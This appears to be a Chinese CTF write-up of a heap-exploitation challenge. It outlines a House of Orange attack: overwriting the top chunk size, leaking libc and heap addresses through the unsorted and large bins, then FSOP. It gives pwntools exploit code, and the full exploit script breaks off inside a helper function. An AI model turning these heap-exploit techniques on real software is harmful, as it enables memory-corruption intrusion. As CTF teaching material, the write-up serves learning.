 #### 思路

满足 ``house_of_orange`` 的条件：堆溢出能修改 topchunk size ；申请 size 限制范围大；没有 free 功能。

1. 溢出修改 topchunk size ，申请大于 topchunk 的堆，将 topchunk 放入 unsortedbin ，然后泄露 libc 地址
2. 修复 chunk_size&pre_size ，申请 larginbin 泄露 heap_addr
3. FSOP

```python
# overwrite topchunk size
add(0,0x88,'a'*0x88+p64(0xf71))
# frow topchunk into unsortedbin
add(1,0xfff,'b')

#leak libc
edit(0,'a'*0x90)
show(0)
p.recvuntil('a'*0x90)
libc_base = u64(p.recv(6).ljust(8,'\x00'))-88-0x3c4b20
log.info("libc_base:"+hex(libc_base))
```

申请 larginbin 之前，需要修复泄露 libc 破坏的 chunk_szie ，以后布置 prev_size ：

```python
# repair chunk_size&prev_size
payload = 'a'*0x88+p64(0xf71)+p64(libc_base+88+0x3c4b20)*2
payload += 'a'*0xf50+p64(0xf70)
edit(0,payload)
p.recvuntil("Done")

# larginbin leak heap addr
add(2,0x450,'c')
edit(0,'a'*0xa0)
show(2)
gdb.attach(p)
p.recvuntil('a'*0x10)
heap_base = u64(p.recv(6).ljust(8,'\x00'))-0x90
log.info("heap_base:"+hex(heap_base))
```

#### EXP

```python
from pwn import *
context(log_level='debug')

# p = remote("182.92.203.154",28452)
# libc = ELF("./libc-2.23.so")

p = process("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./pwn")

def command(id):
	p.recvuntil(">> ")
	p.sendline(str(id))
def add(id,size,content):
	command(1)
	p.recvuntil(": ")
	p.sendline(str(id))
	p.recvuntil(": ")
	p.sendline(str(size))
	p.recvuntil(": ")
	p.send(content)
def show(id):
	command(2)
```